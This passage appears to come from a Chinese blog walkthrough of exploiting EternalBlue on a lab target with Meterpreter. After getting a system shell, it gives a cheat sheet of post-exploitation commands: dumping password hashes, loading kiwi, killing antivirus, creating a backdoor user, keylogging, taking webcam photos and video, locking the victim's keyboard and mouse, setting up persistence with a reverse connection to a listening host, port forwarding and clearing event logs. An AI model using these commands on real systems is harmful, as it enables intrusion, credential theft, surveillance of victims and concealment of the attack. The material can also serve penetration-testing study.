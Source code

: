 获取远程靶机的屏幕截图，使用`screenshot`命令

![7](https://the0n3.top/medias/永恒之蓝/7.png)

获取目标靶机shell，使用`shell`命令，使用`chcp 65001`可以解决终端乱码的问题

```bash
shell
chcp 65001
```

拿到系统最高权限

![8](https://the0n3.top/medias/永恒之蓝/8.png)

## 关于拿到权限后的渗透

参考大佬给出的命令，做点恶趣味。**抱歉，有权限是真的可以为所欲为(汪汪)**

在meterpreter >中，我们可以使用以下命令来实现对目标的操作

```bash
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
run hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run                          #使用扩展库
run persistence -X -i 5 -p 8888 -r 192.168.10.27        #反弹时间间隔是5s 会自动连接
                                   192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clearev                       #清除日志
```
